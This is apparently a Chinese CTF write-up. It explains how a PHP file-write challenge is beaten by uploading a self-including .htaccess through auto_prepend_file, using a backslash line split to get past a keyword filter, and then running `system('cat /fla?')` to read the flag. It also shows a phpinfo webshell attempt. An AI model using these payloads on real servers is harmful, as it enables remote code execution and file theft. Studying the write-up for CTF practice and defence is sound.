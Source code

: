 ```php

<?php 
    $files = scandir('./');  
    foreach($files as $file) { 
        if(is_file($file)){ 
            if ($file !== "index.php") { 
                unlink($file); 
            } 
        } 
    } 
    if(!isset($_GET['content']) || !isset($_GET['filename'])) { 
        highlight_file(__FILE__); 
        die(); 
    } 
    $content = $_GET['content']; 
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) { 
        echo "Hacker"; 
        die(); 
    } 
    $filename = $_GET['filename']; 
    if(preg_match("/[^a-z\.]/", $filename) == 1) { 
        echo "Hacker"; 
        die(); 
    } 
    $files = scandir('./');  
    foreach($files as $file) { 
        if(is_file($file)){ 
            if ($file !== "index.php") { 
                unlink($file); 
            } 
        } 
    } 
    file_put_contents($filename, $content . "\nHello, world"); 
```

扫描当前目录下的文件，删掉了除`index.php`的其他文件

GET获取两个请求参数
`content`：不能含有on、html、type、flag、upload、file
`filename`：只能由字母和`.`组成

尝试上传木马 `?filename=test.php&content=<?php phpinfo();?>`

但访问test.php发现是以文本的形式返回，并没有当成php执行。

猜测服务器设置了只解析index.php为php文件

这时候就引导我们上传`.htaccess`文件了，可以指定执行php的后缀

**需要在服务器的主配置文件将 AllowOverride 设置为 All**

> AddType application/x-httpd-php .htm          #.htm文件也可以被当成php文件执行

先抛下过滤不说，就算我们上传上去了，再次利用index.php来写木马文件时，我们之前上传的`.htaccess`就会被删掉

有没有一种办法在`.htaccess`中写木马，并在index.php执行之前先执行`.htaccess`呢？
可以利用`auto_prepend_file`

> `php_value auto_prepend_file xxx`： 在主文件解析之前自动解析包含xxx的内容
>
> htaccess 中有 # 单行注释符, 且支持 \拼接上下两行

那下面就好理解了，由于过滤了`file`，使用`\`来绕过
在主文件解析之前自动解析包含`.htaccess`自身的内容

为了防止`.htaccess`本身格式出错，需要将我们的恶意代码注释掉(`#`)
`file_put_contents`时还在末尾拼接了`\nHello, world`，这部分也需要注释掉，也是使用`\`连接符连接两行

> php_value auto_prepend_fil\
> e .htaccess
> #<?php system('cat /fla?');?>\

再次访问`/index.php`，得到flag